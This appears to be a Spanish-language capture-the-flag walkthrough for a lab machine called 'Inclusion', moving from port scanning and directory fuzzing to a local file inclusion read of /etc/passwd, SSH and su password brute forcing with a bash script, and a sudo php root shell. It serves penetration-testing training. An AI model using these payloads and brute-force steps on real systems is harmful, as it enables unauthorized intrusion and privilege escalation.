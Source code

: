 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Inclusion

Empezamos haciendo un `nmap` a la máquina con el parámetro `-p-` para que recorra todos los puertos.

```bash
cat nmap
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-13 17:50 EDT
Nmap scan report for 172.17.0.2
Host is up (0.0000040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.72 seconds
```

Seguidamente, procedo a listar los directorios del servicio web, ya que al acceder a `http://172.17.0.2/` me sale el fichero de configuración de Apache.

```bash
ffuf -w /usr/share/wordlists/SecLists-2025.2/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/FUZZ
```

```bash
shop                [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 0ms]
```

Si accedemos a la página web, encontramos esto:

<figure><img src="../../.gitbook/assets/Pasted image 20250714010243.png" alt=""><figcaption></figcaption></figure>

En la esquina inferior izquierda, se puede observar un error de código php: está intentando obtener el parámetro "archivo", pero no lo encuentra. Esto nos da una pista de que la web utiliza dicho parámetro que, probablemente, utiliza para listar ficheros. Si probamos a poner la url `172.17.0.2/shop/?archivo=../../../../../etc/passwd`, vemos que es vulnerable a LFI:

<figure><img src="../../.gitbook/assets/Pasted image 20250714010651 (1).png" alt=""><figcaption></figcaption></figure>

Entre los usuarios listados en el `/etc/passwd`, encontramos `manchi` y `seller` que tienen tanto un home en `/home` definido, como un `/bin/bash`. Probamos a hacer fuerza bruta al usuario `manchi` con `hydra`:

```bash
hydra -l manchi -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

{% code fullWidth="false" %}
```
[22][ssh] host: 172.17.0.2   login: manchi   password: lovely
1 of 1 target successfully completed, 1 valid password found
```
{% endcode %}

Con esto ganamos acceso al usuario `manchi` por `ssh`. Una vez dentro, nos damos cuenta de que el usuario no es `sudoer`, ni tampoco hay binarios con bit SUID. Probamos a entrar al otro usuario usando `hydra` nuevamente, pero vemos que por alguna razón está rechazando las conexiones, por lo que puede tener bloqueadas las conexiones por `ssh`. El siguiente paso es probar a hacer fuerza bruta a través de `su` al usuario `seller` desde dentro de la máquina. Nos pasamos por `scp` el `rockyou.txt` a la máquina y tiramos el siguiente script en `bash`:

```bash
#!/bin/bash

# Función que se ejecutará en caso de que el usuario no proporcione 2 argumentos.
mostrar_ayuda() {
    echo -e "\e[1;33mUso: $0 USUARIO DICCIONARIO"
    echo -e "\e[1;31mSe deben especificar tanto el nombre de usuario como el archivo de diccionario.\e[0m"
    exit 1
}

# Llamamos a esta función desde el trap finalizar SIGINT (En caso de que el usuario presione control + c para salir)
finalizar() {
    echo -e "\e[1;31m\nFinalizando el script\e[0m"
    exit
}

trap finalizar SIGINT

usuario=$1
diccionario=$2

# Variable especial $# para comprobar el número de parámetros introducido. En caso de no ser 2, se imprimen las instrucciones.
if [[ $# != 2 ]]; then
    mostrar_ayuda
fi

# Bucle while que lee línea a línea el contenido de la variable $diccionario, que a su vez esta variable recibe el diccionario como parámetro.
while IFS= read -r password; do
    echo "Probando contraseña: $password"
    if timeout 0.1 bash -c "echo '$password' | su $usuario -c 'echo Hello'" > /dev/null 2>&1; then
        clear
        echo -e "\e[1;32mContraseña encontrada para el usuario $usuario: $password\e[0m"
        break
    fi
done < "$diccionario"
```

Después de ejecutar el script, obtenemos la contraseña de `seller`:

```
Contraseña encontrada para el usuario seller: qwerty
```

Con `su` accedemos al usuario. Vemos qué permisos tenemos con `sudo`:

```bash
sudo -l
```

```
Matching Defaults entries for seller on 9c6760c93936:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User seller may run the following commands on 9c6760c93936:
    (ALL) NOPASSWD: /usr/bin/php
```

Vemos que podemos hacer `sudo` al binario `/usr/bin/php` sin necesidad de contraseña. Buscando en [gtfobins](https://gtfobins.github.io/), vemos que podemos escalar privilegios si tenemos permisos para ejecutarlo con `sudo`:

```bash
CMD="/bin/sh"
sudo php -r "system('$CMD');"
```

Una vez ejecutado el código `php` con `sudo`, obtenemos acceso al root de la máquina:

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250714013436.png" alt=""><figcaption></figcaption></figure></div>
